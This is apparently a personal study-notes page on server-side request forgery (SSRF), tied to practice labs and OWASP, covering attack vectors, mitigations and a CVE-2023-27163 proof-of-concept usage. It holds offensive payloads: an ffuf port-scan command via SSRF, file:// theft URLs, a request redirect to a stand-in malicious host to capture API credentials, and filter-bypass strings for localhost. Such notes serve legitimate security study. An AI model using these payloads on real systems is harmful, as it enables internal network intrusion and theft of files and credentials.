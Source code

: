 # Server-Side Request Forgery (SSRF)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day19.svg)](https://tryhackme.com/room/adventofcyber2)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common attack vectors

* 📚 Headers <small>(mostly User-Agent)</small>
* 📄 Forms <small>(internal API calls)</small>
* 🍪 Cookies
* 🌍 Remote connections <small>(imports, file processing, etc.)</small>
</div><div>

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client

Refer to [request grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) to catch requests.
</div></div>

<hr class="sep-both">

## SSRF Attack Vectors

<div class="row row-cols-lg-2"><div>

#### Remote URL Access

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

The most common scenario is when a website requests an external resources using user input, such as an external avatar URL.

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

You may be able to:

* Map ports/services 🗺️
* Steal files 💰

#### Remote API Endpoint Access

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

If a website is making a request to an external API based on a endpoint controlled by the user, we may be able to access another unintended endpoint. Ex: `website.a/?api=path` $\to$ `website.b/path`.

You may be able to:

* Access unintended API endpoints 🛣️
</div><div>

#### Remote API Access

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

Ex: `a?api=xxx&r=path` $\to$ `xxx.b/path`

* We send the request to `https://xxx.thebestapi.example/path`
* If `api=malicious_website.com?&ignore=`, then the URL crafted is `https://malicious_website.com?&ignore=.thebestapi.com/path`!

You may be able to:

* Steal API tokens/credentials 💵
</div></div>

<hr class="sep-both">

## SSRF Exploitation

<div class="row row-cols-lg-2"><div>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div><div>

#### Steal files 💰

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.

* [List of interesting files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md)
* You could also try to connect to your FTP server using `ftp://`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

<div class="row row-cols-lg-2"><div>

**Allow List/Whitelist**

We define what is allowed such as which URLs/resources. It can be bypassed. If there is a condition like `the URL must start with https://example.com`, then it can be bypassed with:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost <small>(127.0.0.1)</small>, or `169.254.169.254` in a cloud environment, but there are usually a lot of ways to bypass such filters. 

All of these are resolving to `127.0.0.1`:

*  `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening)
* `2130706433` (decimal), `017700000001` (octal)
* [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), etc.
* ...
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # send to listener
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:port2 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>